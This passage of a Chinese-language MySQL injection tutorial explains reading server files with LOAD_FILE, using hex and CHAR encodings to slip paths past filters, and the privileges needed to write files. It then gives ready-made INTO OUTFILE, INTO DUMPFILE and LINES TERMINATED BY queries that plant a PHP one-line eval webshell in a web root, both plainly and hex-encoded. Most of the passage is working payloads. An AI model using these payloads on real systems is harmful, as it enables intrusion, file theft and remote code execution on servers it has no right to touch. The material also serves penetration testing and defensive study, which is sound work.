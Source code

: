**使用例子：**

>  注意路径符号的处理，要么使用`/`，使用Windows的`\`需要进行转义，即`\\`。
>
> 1. **`SELECT LOAD_FILE("C://TEST.txt")`**
>
> 2. **`SELECT LOAD_FILE("C:/TEST.txt")`**
>
> 3. **`SELECT LOAD_FILE("C:\\TEST.txt")`**
>
> 4. **`SELECT LOAD_FILE(CHAR(67,58,92,92,84,69,83,84,46,116,120,116))`**
>
>    > `CHAR(67,58,92,92,84,69,83,84,46,116,120,116)`得到的是`C:\\TEST.txt`。
>
> 5. **`SELECT LOAD_FILE(0x433a5c5c544553542e747874) `**
>
>    > `0x433a5c5c544553542e747874`是`C:\\TEST.txt`经过十六进制编码得到的。

### 0x03 写（导入）文件

**select ... into outfile ‘filepath’**

**select ... into dumpfile ‘filepath’**

> 可以把查询的行写入一个文件中。

**使用条件**：

> 1. 连接数据库的用户有`file_priv`权限，且启动`mysqld`的用户对目录需要有写权限。
>
> 2. 文件路径必须为绝对路径，`file_name`不能是一个已经存在的文件。
>
> 3. 如果`secure_file_priv`非NULL，则只能读取对应目录下的文件。当`secure_file_priv`的值为NULL ，表示限制`mysqld`不允许导入|导出。当`secure_file_priv`的值为空白，表示可以导入任意目录。
>
>    > `show  variables like "secure_file%";`

**写入Webshell条件**：

> 1. 需要知道网站的绝对物理路径，这样导出后的webshell可访问。
> 2. 写入的目录有写权限。
> 3. `secure_file_priv`非NULL且包含了WEB路径。

**写入Webshell**：

> - **`select "<?php @eval($_POST[sh4douu])?>"  into outfile "X:\\phpstudy\\PHPTutorial\\WWW\\shell.php";`**
> - **`select "<?php @eval($_POST[sh4douu])?>"  into dumpfile "X:\\phpstudy\\PHPTutorial\\WWW\\shell.php";`**

**LINES TERMINATED BY**

用于不是`Union Select`时。

> 1. 使用格式：
>
>    > **`Select version() into outfile 'X:/phpstudy/PHPTutorial/WWW/shell.php' LINES TERMINATED BY [十六进制数据]`**
>
> 2. 例子：
>
>    > **`Select user From mysql.user where user="root" limit 1 into outfile 'X:/phpstudy/PHPTutorial/WWW/shell.php' LINES TERMINATED BY 0x3C3F70687020406576616C28245F504F53545B736834646F75755D293F3E;`**
>    >
>    > > 0x3C3F70687020406576616C28245F504F53545B736834646F75755D293F3E是经过十六进制编码后的`<?php @eval($_POST[sh4douu])?>`，`Lines Terminated By`就是在查询到的数据最后再加入指定的数据然后一并写到文件中。如下图，查询到数据为`root`，之后的一句话木马是`Lines Terminated By`之后的十六进制数据解码得到的字符。
>